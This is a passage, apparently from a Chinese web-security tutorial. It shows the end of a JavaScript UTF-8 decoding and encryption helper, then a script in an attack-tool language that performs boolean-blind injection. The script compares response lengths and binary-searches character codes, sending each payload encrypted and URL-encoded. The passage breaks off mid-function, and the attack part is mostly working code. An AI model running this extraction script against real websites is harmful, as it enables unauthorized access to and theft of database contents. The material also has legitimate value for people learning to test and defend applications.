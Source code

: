 ```js
        var i = 0;  
        var c = c1 = c2 = 0;  
        while ( i < utftext.length ) {  
            c = utftext.charCodeAt(i);  
            if (c < 128) {  
                string += String.fromCharCode(c);  
                i++;  
            } else if((c > 191) && (c < 224)) {  
                c2 = utftext.charCodeAt(i+1);  
                string += String.fromCharCode(((c & 31) << 6) | (c2 & 63));  
                i += 2;  
            } else {  
                c2 = utftext.charCodeAt(i+1);  
                c3 = utftext.charCodeAt(i+2);  
                string += String.fromCharCode(((c & 15) << 12) | ((c2 & 63) << 6) | (c3 & 63));  
                i += 3;  
            }  
        }  
        return string;  
    }  
}
function e(str)
{
	var base = new enc();
	return base.encode(str);
}
```

其实只是在上面的代码中增加了对js加密的调用也就是e函数。

因为含有了js加密，所以我们之前写好的代码需要稍作调整：

```js
#include ATTACKUTILS/encryption.wker
function GetRealLength(url){
	res = HttpGet(url,"User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:86.0) Gecko/20100101 Firefox/86.0");
	return GetStrLength(res[0]);
}
function JudgeRESEqule(url,length){
	res = HttpGet(url,"User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:86.0) Gecko/20100101 Firefox/86.0");
	if(GetStrLength(res[0]) == length){
		return 1;
	}else{
		return 0;
	}
}
function dichotomy(url,sentence,length){
	max = 128;
	min = 0;
	medium = 64;
	while((max-min) > 1){
		if(JudgeRESEqule(url.URLEncode(Enc(sentence.medium)),length) == 1){
			min = medium;
		}else{
			max = medium;
		}
		medium = ToInt((max+min)/2);
	}
	if(JudgeRESEqule(url.URLEncode(Enc(sentence.ToInt(min))),length) == 1){
		return ToInt(max);
	}else{
		return ToInt(min);
```